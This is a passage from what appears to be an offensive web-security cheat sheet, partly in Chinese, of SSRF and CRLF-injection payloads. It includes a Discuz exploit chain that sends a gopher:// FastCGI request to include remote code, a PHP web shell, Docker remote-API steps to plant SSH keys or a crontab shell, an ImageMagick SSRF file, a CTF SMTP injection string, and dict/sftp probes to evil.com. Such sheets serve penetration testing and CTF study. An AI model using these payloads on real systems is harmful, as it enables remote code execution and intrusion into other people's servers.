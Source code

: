         - default port: 9000
        - example
            - Discuz Pwn
                - 302.php: `<?php
header( "Location: gopher://127.0.0.1:9000/x%01%01Zh%00%08%00%00%00%01%00%00%00%00%00%00%01%04Zh%00%8b%00%00%0E%03REQUEST_METHODGET%0F%0FSCRIPT_FILENAME/www//index.php%0F%16PHP_ADMIN_VALUEallow_url_include%20=%20On%09%26PHP_VALUEauto_prepend_file%20=%20http://kaibro.tw/x%01%04Zh%00%00%00%00%01%05Zh%00%00%00%00" );`
                - x: `<?php system($_GET['cmd']); ?>`
                - visit: `/forum.php?mod=ajax&action=downremoteimg&message=[img]http://kaibro.tw/302.php?.jpg[/img]`
    - MySQL
        - 無密碼認證可以SSRF
        - MySQL Client與Server交互主要分兩階段
            - Connection Phase
            - Command Phase
        - `gopher://127.0.0.1:3306/_<PAYLOAD>`

    - Docker 
        - Remote api未授權訪問
            - 開一個container，掛載/root/，寫ssh key
            - 寫crontab彈shell

    - ImageMagick - CVE-2016-3718
        - 可以發送HTTP或FTP request
        - payload: ssrf.mvg
        ```
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(http://example.com/)'
        pop graphic-context
        ```
        - `$ convert ssrf.mvg out.png`
    

## CRLF injection

### SMTP

SECCON 2017 SqlSRF:

`127.0.0.1 %0D%0AHELO sqlsrf.pwn.seccon.jp%0D%0AMAIL FROM%3A %3Ckaibrotw%40gmail.com%3E%0D%0ARCPT TO%3A %3Croot%40localhost%3E%0D%0ADATA%0D%0ASubject%3A give me flag%0D%0Agive me flag%0D%0A.%0D%0AQUIT%0D%0A:25/`

## FingerPrint

- dict
```
dict://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5566 [tcp/*] accepted (family 2, sport 40790)
CLIENT libcurl 7.35.0

-> libcurl version
```
- sftp
```
sftp://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5278 [tcp/*] accepted (family 2, sport 40810)
```